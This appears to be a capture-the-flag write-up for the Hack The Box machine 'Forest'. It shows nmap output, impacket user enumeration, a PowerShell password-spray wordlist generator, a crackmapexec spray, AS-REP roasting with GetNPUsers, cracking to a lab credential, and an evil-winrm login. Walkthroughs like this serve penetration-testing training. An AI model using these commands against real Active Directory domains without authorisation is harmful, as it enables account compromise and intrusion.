






We start off doing a *comprehensive* nmap scan with **default scripts** and **service detection**

```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-05 19:09:07Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49684/tcp open  msrpc        Microsoft Windows RPC
49703/tcp open  msrpc        Microsoft Windows RPC
49967/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-05T19:10:01
|_  start_date: 2022-04-05T18:45:37
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2022-04-05T12:10:02-07:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m50s, deviation: 4h02m31s, median: 6m49s
```

We find a collection of ports that give us a high probability that this is windows machine and a domain controller:
- DNS on port 53
- Kerberos on port 88
- SMB on port 445
- LDAP on port 636
- Global Catalog on port 3268
- WinRM on port 5985

From the nmap `smb-os-discovery`, the domain name should be `htb.local`

We want to start enumerating users. So we use an impacket tool called `GetADUsers.py`.

The command is: `GetADUsers.py -dc-ip 10.10.10.161 "htb.local/" -all`

```
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Querying 10.10.10.161 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator         Administrator@htb.local         2021-08-30 20:51:58.690463  2022-04-05 14:46:24.124409 
Guest                                                 <never>              <never>             
DefaultAccount                                        <never>              <never>             
krbtgt                                                2019-09-18 06:53:23.467452  <never>             
$331000-VK4ADACQNUCA                                  <never>              <never>             
SM_2c8eef0a09b545acb  SystemMailbox{1f05a927-89c0-4725-adca-4527114196a1}@htb.local  <never>              <never>             
SM_ca8c2ed5bdab4dc9b  SystemMailbox{bb558c35-97f1-4cb9-8ff7-d53741dc928c}@htb.local  <never>              <never>             
SM_75a538d3025e4db9a  SystemMailbox{e0dc1c29-89c3-4034-b678-e6c29d823ed9}@htb.local  <never>              <never>             
SM_681f53d4942840e18  DiscoverySearchMailbox{D919BA05-46A6-415f-80AD-7E09334BB852}@htb.local  <never>              <never>             
SM_1b41c9286325456bb  Migration.8f3e7716-2011-43e4-96b1-aba62d229136@htb.local  <never>              <never>             
SM_9b69f1b9d2cc45549  FederatedEmail.4c1f4d8b-8179-4148-93bf-00a95fa1e042@htb.local  <never>              <never>             
SM_7c96b981967141ebb  SystemMailbox{D0E409A0-AF9B-4720-92FE-AAC869B0D201}@htb.local  <never>              <never>             
SM_c75ee099d0a64c91b  SystemMailbox{2CE34405-31BE-455D-89D7-A7C7DA7A0DAA}@htb.local  <never>              <never>             
SM_1ffab36a2f5f479cb  SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}@htb.local  <never>              <never>             
HealthMailboxc3d7722  HealthMailboxc3d7722415ad41a5b19e3e00e165edbe@htb.local  2019-09-23 18:51:31.892097  2019-09-23 18:57:12.361516 
HealthMailboxfc9daad  HealthMailboxfc9daad117b84fe08b081886bd8a5a50@htb.local  2019-09-23 18:51:35.267114  2019-09-23 18:52:05.736012 
HealthMailboxc0a90c9  HealthMailboxc0a90c97d4994429b15003d6a518f3f5@htb.local  2019-09-19 07:56:35.206329  <never>             
HealthMailbox670628e  HealthMailbox670628ec4dd64321acfdf6e67db3a2d8@htb.local  2019-09-19 07:56:45.643993  <never>             
HealthMailbox968e74d  HealthMailbox968e74dd3edb414cb4018376e7dd95ba@htb.local  2019-09-19 07:56:56.143969  <never>             
HealthMailbox6ded678  HealthMailbox6ded67848a234577a1756e072081d01f@htb.local  2019-09-19 07:57:06.597012  <never>             
HealthMailbox83d6781  HealthMailbox83d6781be36b4bbf8893b03c2ee379ab@htb.local  2019-09-19 07:57:17.065809  <never>             
HealthMailboxfd87238  HealthMailboxfd87238e536e49e08738480d300e3772@htb.local  2019-09-19 07:57:27.487679  <never>             
HealthMailboxb01ac64  HealthMailboxb01ac647a64648d2a5fa21df27058a24@htb.local  2019-09-19 07:57:37.878559  <never>             
HealthMailbox7108a4e  HealthMailbox7108a4e350f84b32a7a90d8e718f78cf@htb.local  2019-09-19 07:57:48.253341  <never>             
HealthMailbox0659cc1  HealthMailbox0659cc188f4c4f9f978f6c2142c4181e@htb.local  2019-09-19 07:57:58.643994  <never>             
sebastien                                             2019-09-19 20:29:59.544725  2019-09-22 18:29:29.586227 
lucinda                                               2019-09-19 20:44:13.233891  <never>             
svc-alfresco                                          2022-04-05 15:18:27.420771  2019-09-23 07:09:47.931194 
andy                                                  2019-09-22 18:44:16.291082  <never>             
mark                                                  2019-09-20 18:57:30.243568  <never>             
santi                                                 2019-09-20 19:02:55.134828  <never> 
```

This gets us all the users in the domain. The ones below look organic enough for us to try spraying.
- Administrator
- sebastien
- lucinda
- svc-alfresco
- andy
- mark
- santi

*Since we need a wordlist,* We create a basic one from the most common passwords (like P@ssw0rd etc.) and from commonly used password convention schemes like:
- Season + Year
- Season + Year + !
- Season + Special Char + Year
- Company Name + Year
- Company Name + Year + !
- Company Name + Special Char + Year

We will use `Forest` as the company name even though it's a CTF. Because that's what I would do in a real pentest :D
Also, the year this machine has been launched is 2019. So we will use that year as well as a couple of years around it (2017, 2018, 2021 and 2021).

I write a quick `PowerShell` script for this:

```
$CompanyName = "Forest"
$Seasons = 'Summer', 'Winter', 'Spring', 'Fall'
$Years = 2017..2021
$Special_Chars = '!@#$%^&*'.ToCharArray()
$Wordlist = @()

Foreach($Year in $Years){
	$Wordlist += "$CompanyName$Year"
	$Wordlist += "$CompanyName$Year!"
	Foreach($Season in $Seasons){
		$Wordlist += "$Season$Year"
		$Wordlist += "$Season$Year!"
		Foreach($Char in $Special_Chars){
			$Wordlist += "$Season$Char$Year"
			$Wordlist += "$CompanyName$Char$Year"
		}
	}
}
```

*Running that script,* I get a list of 370 passwords to try. Not bad :D

```
..SNIP..
Forest2019
Forest2019!
Summer2019
Summer2019!
Summer!2019
Forest!2019
Summer@2019
Forest@2019
Summer#2019
Forest#2019
Summer$2019
Forest$2019
Summer%2019
..SNIP..
```

I then use `crackmapexec` to obtain the password policy. We don't want to lock everyone one out XD



We see that `Account Lockout Threshold: None` and `Domain Password Lockout Admins: 0`. This is amazing! we can definitely bruteforce without any problems :D

We start the spray using:
`crackmapexec smb 10.10.10.161 -u users.txt -p passwords.txt --continue-on-success`

But we get no luck with that :/

*Having no credentials,* we can still try an attack called `ASREP Roasting`. This attack would let us grab the hashes of accounts that **don't require Kerberos PreAuthentication.**

we run this attack using impacket's `GetNPUsers.py` script:

`GetNPUsers.py htb.local/ -usersfile users.txt -format hashcat -outputfile asrep-hashes.txt`

This is after we set `10.10.10.161` as our name server in `/etc/resolv.conf`. We do this because impacket does DNS lookups in the background.





notice that the user `svc-alfresco` doesn't show in the script console output. I'm not sure why xD but the hash was pushed out to the `asrep-hashes.txt` file.

we use `john` to crack the hash and the password for `svc-alfresco` turns out to be `s3rvice`



*in case you were wondering,* the wordlist I used `gegalist.txt` is just one big list of all the passwords on `Seclists` (https://github.com/danielmiessler/SecLists/tree/master/Passwords) concatenated and cleaned up. I use it for all hash cracking. It's only 21,377,691 passwords. Just kidding, it's a pretty fat list XD

Alright, here is our first set of creds:
- Username: htb.local\svc-alfresco
- Password: s3rvice

We first try to login using `crackmapexec` using the `SMB` module. But that doesn't work. This is because `svc-alfresco` isn't a local administrator on the machine. So we try another approach for remote code execution. This time using a tool called `evil-winrm` (https://github.com/Hackplayers/evil-winrm)



it works like a charm, this is because we're a member of the builtin group of `Remote Management Users`

